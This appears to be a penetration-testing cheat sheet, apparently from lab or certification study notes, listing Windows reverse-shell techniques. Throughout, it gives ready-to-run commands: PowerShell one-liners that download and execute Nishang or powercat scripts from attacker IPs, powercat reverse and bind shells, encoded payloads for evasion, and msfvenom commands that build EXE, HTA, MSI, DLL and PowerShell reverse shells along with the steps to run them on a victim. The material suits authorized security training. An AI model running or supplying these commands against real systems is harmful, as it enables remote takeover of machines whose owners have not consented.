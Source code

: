             Put this at end of the file first:   Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.186 -Port 4445
            Or try: powershell -c ...
        powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
        Mini-reverse.ps1:  https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5
        Nishang:  wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
    Other Options:  file transfer nc.exe, then use it
    Powercat Methods:
        To enable scripts:   Set-ExecutionPolicy Unrestricted  (run as admin)
        File transfer/download:   powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
        Powercat=PS version of netcat
            1. download in kali with apt install powercat to: /usr/share/windows-resources/powercat
            2. use PS file transfer method^^^ to send it to windows victim
            3. on windows machine:
                . .\powercat.ps1
                or, if connected to internet:    iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
                run it: powercat -h
            File transfer:
                linux listener:  sudo nc -lnvp 443 > receiving_powercat.ps1
                windows sender:  powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
            Reverse shell:
                powercat -c 10.11.0.4 -p 443 -e cmd.exe
            Bind shell:
                powercat -l -p 443 -e cmd.exe
                nc 10.11.0.22 443
            Stand-alone payloads, ex. reverse shell:  powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
                encode for better success:  powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
                    run with: powershell.exe -E [encoded string contents of ps1 file]

### MSFVenom Binary Generation:  

	msfvenom --list [formats/payloads/etc.]
	Common Params:
		-b "\x00\x0a\x0d" 
		-f c 
		-e x86/shikata_ga_nai -i 5 	#encoding
		EXITFUNC=thread
		PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
	Windows:
		EXE: msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f exe > shell.exe ; nc –lvp 443
		Batch: msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.3 lport=443 > shell.bat ; nc –lvp 443
		HTA:  Host locally: msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f hta-psh > shell.hta ; Target: mshta http://192.168.1.3/shell.hta ; nc –lvp 443
		MSI:  msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f msi > shell.msi ; msiexec /quiet /qn /i shell.msi ; nc -lvp 443
		DLL:  msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f dll > shell.dll ; rundll32.exe shell.dll,0 ; nc -lvp 443
		PS (EncodedCommand):  msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.3 lport=443 -f psh-cmd -f raw
			x86: msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.158 LPORT=5555 -e x86/shikata_ga_nai -f psh-cmd
                	x64: msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.158 LPORT=5555 -e shikata_ga_nai -f psh-cmd
		PS Script:  msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.1.3 lport=443 -f psh > shell.ps1 ; PowerShell –ep bypass; .\shell.ps1 ; use exploit/multi/handler ... set payload windows/x64/meterpreter_reverse_https